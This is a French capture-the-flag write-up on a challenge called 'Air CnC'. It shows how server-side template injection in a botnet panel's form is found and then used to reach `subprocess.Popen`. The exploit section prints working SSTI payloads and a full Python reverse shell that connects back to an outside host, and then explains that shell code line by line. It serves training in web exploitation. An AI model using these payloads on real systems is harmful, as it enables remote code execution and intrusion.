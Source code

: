 # Air CnC

## Recon

Sur la page d'accueil du panel, on trouve des informations sur les bots, on voit aussi un formulaire qui semble permettre de donner des directives aux bots.

On entre n'importe quoi dedans, on voit ensuite que notre entrée est recopiée sur la page suivante. Comme on est connecté en tant qu'admin, pas besoin d'exploiter une XSS pour récupérer des sessions, on va alors s'orienter vers une exploitation de SSTI.

## Tests

On entre `{{7*7}}`, on a alors 49 en retour, on tente aussi `{{config}}`, et hop la config ! Mais pas de flag à l'horizon, serait-il dans une variable de session, un fichier... ? Allons le trouver.

## Exploit

On commence par regarder notre session : `{{session}}`, rien.

Bon, bah cherchons sur le serveur !

> À partir le là il y a pleins de manières d'exécuter du code sur le serveur, je décide d'avoir le luxe de me faire un reverse shell.

1. On cherche `subprocess.Popen` :
    
    `{{ ().__class__.mro()[1].__subclasses__()[226] }}` -> `<class subprocess.Popen>` !

2. Test de fonctionnement :

    `{{ ().__class__.mro()[1].__subclasses__()[226]("ls", shell=True, stdout=-1).communicate()[0] }}` -> `app.py static templates`

3. Reverse shell Python des familles :

    `{{ ().__class__.mro()[1].__subclasses__()[226]("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"172.17.0.1\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'", shell=True, stdout=-1).communicate()[0] }}`

    Bon on va quand même le décomposer :^)

    Voilà le code en plus joli :

    ```python
    import socket, subprocess, os

    # À modifier en fonction
    IP = "x.x.x.x"
    PORT = 1337

    # On créer un socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # On se connecte à l'adresse et au port donné
    s.connect((IP, PORT))

    # On duplique les file descriptors pour garder la session ouverte
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)

    # On lance /bin/bash
    p = subprocess.call(["/bin/sh", "-i"])
    ```

4. On cherche le flag :

    Une fois qu'on a un reverse shell, on cherche le flag, on peut essayer de parcourir tous les dossiers à notre portée, mais on peut aussi utiliser grep :

    `grep -R "H2G2{" /` -> /flag -> on a le flag
